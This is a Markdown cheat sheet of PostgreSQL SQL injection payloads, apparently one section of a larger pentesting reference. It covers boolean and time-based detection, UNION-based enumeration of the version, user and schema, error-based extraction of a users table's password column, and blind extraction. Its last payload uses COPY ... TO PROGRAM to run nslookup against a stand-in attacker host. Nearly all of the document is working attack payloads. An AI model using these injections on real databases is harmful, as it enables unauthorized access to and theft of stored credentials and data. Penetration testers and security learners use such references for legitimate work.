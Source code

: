 
## PostgreSQL

Discovery
- Comments: `-- `, `/* ... */`
- Concatenation: `'a'||'b'`
- Time primitive: `pg_sleep(5)`
- Version: `version()`

Initial detection
- Boolean:
  - `AND 1=1-- ` vs `AND 1=2-- `
- Time-based:
  - `AND CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END-- `

Version / DB / User
```sql
UNION SELECT version()-- 
UNION SELECT current_database()-- 
UNION SELECT current_user-- 
```

UNION setup
- Column count via `ORDER BY n` or `NULL` enumeration.

Schema enumeration
```sql
UNION SELECT table_schema, table_name FROM information_schema.tables WHERE table_schema NOT IN ('pg_catalog','information_schema')-- 
UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users'-- 
```

Error-based extraction
- Cast to wrong type:
```sql
AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)-- 
```

Boolean blind
```sql
AND LENGTH((SELECT current_user))=13-- 
AND ASCII(SUBSTRING((SELECT current_database()),1,1))>77-- 
```

Time-based blind
```sql
AND CASE WHEN (ASCII(SUBSTRING((SELECT current_user),1,1))>77) THEN pg_sleep(5) ELSE pg_sleep(0) END-- 
```

Out-of-band
- Requires elevated privileges; can execute programs:
```sql
COPY (SELECT current_user) TO PROGRAM 'nslookup attacker.tld';
```

---
